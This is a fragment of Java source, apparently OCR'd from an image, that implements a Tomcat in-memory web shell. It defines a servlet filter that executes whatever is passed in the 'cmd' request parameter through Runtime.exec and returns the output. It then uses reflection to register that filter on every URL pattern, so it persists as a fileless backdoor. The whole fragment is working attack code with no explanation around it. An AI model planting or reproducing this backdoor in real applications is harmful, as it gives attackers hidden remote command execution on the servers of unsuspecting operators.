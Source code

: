 ```java
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){

                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                    //
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);

                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }
            @Override
            public void destroy() {
            }
        };
        //Step 3
        Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
        FilterDef o = (org.apache.tomcat.util.descriptor.web.FilterDef)declaredConstructors.newInstance();
        o.setFilter(filter);
        o.setFilterName(FilterName);
        o.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(o);
        //Step 4
        Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();
        org.apache.tomcat.util.descriptor.web.FilterMap o1 = (org.apache.tomcat.util.descriptor.web.FilterMap)declaredConstructor.newInstance();

        o1.addURLPattern("/*");
        o1.setFilterName(FilterName);
        o1.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(o1);

        //Step 5
        Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);
        declaredConstructor1.setAccessible(true);
        ApplicationFilterConfig filterConfig = (org.apache.catalina.core.ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);
        filterConfigs.put(FilterName,filterConfig);
    }
} catch (Exception e) {
    e.printStackTrace();
}
```
